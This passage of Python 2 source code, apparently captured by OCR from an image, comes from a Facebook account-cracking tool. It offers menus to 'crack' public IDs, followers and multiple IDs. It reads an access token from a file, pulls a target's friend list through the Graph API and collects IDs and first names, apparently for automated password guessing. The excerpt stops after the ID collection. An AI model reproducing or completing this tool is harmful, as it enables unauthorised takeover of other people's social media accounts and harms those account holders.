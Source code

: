 
def crack():
    global token
    os.system('clear')
    
    try:
        token = open('shankar_token.txt', 'r').read()
    except IOError:
        print ''
        print '\tToken not found '
        time.sleep(1)
        login()

    os.system('clear')
    print logo
    print '\t     CRACK WITH AUTO PASS'
    print '\x1b[1;37m======================================================='
    print '[1] CRACK PUBLIC ID'
    print '[2] CRACK FOLLOWERS'
    print '[3] CRACK MULTIPLE ID'
    print '[4] FILE CLONING'
    print '[0] BACK'
    print '\x1b[1;37m======================================================='
    crack_select()


def crack_select():
    select = raw_input('[?] Choose : ')
    id = []
    oks = []
    cps = []
    if select == '1':
        os.system('clear')
        print logo
        print '\t     AUTO PASS CRACKING'
        print '\x1b[1;37m======================================================='
        idt = raw_input('[?] INPUT ID : ')
        
        try:
            r = requests.get('https://graph.facebook.com/' + idt + '?access_token=' + token)
            q = json.loads(r.text)
            os.system('clear')
            print logo
            print '\t     AUTO PASS CRACKING'
            print '\x1b[1;37m======================================================='
            print '[+] CLONING FROM : \x1b[1;32m' + q['name']
        except KeyError:
            print '\tInvalid link OR token'
            print ''
            raw_input('PRESS ENTER TO BACK')
            crack()

        r = requests.get('https://graph.facebook.com/' + idt + '/friends?access_token=' + token)
        z = json.loads(r.text)
        for i in z['data']:
            uid = i['id']
            na = i['name']
            nm = na.rsplit(' ')[0]
            id.append(uid + '|' + na)
        